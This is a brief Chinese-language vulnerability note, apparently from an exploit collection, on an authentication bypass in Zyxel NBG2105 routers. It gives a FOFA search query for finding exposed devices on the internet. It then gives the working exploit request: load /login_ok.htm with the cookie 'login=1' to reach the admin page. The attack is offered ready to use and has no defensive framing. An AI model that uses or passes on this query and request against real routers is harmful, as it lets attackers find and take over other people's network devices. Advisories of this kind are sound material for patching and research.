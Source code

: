 <languages  />

漏洞影響
--------

    Zyxel NBG2105

FOFA
----

    app="ZyXEL-NBG2105"

![](Xnip2021-04-06_09-32-28.jpg "Xnip2021-04-06_09-32-28.jpg")

其中前端文件 `/js/util_gw.js` 存在前端對 `Cookie login`參數的校驗。

請求如下則會以管理員身份跳轉到 `home.htm`頁面。


    http://xxx.xxx.xxx.xxx/login_ok.htm

    Cookie: login=1;

![](Xnip2021-04-06_09-36-42.jpg "Xnip2021-04-06_09-36-42.jpg")